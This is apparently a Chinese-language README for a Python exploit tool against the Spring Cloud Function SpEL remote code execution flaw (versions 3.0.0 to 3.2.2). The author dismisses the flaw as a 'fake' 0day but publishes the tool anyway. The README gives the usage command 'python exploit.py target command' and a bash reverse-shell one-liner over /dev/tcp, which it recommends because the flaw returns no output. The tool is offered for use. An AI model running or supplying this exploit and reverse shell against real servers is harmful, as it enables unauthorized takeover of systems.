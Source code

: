 # 工具介绍

这两天出现了一个spring的rce 0day。

然后就频频出现有人刷这个Spring Cloud Function SPEL的“假”0day。

在拿到真0day的exp的情况下就转头看看这个“假”0day。

还是那句话。辣鸡。大佬看着辣眼睛请绕过。

+ *> 漏洞影响的版本：3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

+ *> 因为该漏洞为无回显的漏洞，因此建议命令执行反弹shell。

+ *> Linux反弹shell：bash -i >& /dev/tcp/ip地址/端口 0>&1

# 工具的使用

使用:

```
python exploit.py 目标 "执行的命令"
```

![image-20220331202314645](images/image-20220331202314645.png)

因为这个漏洞是不回显的。所以还是反弹shell的好。

如果执行其他命令也可以成功的，只是不回显。
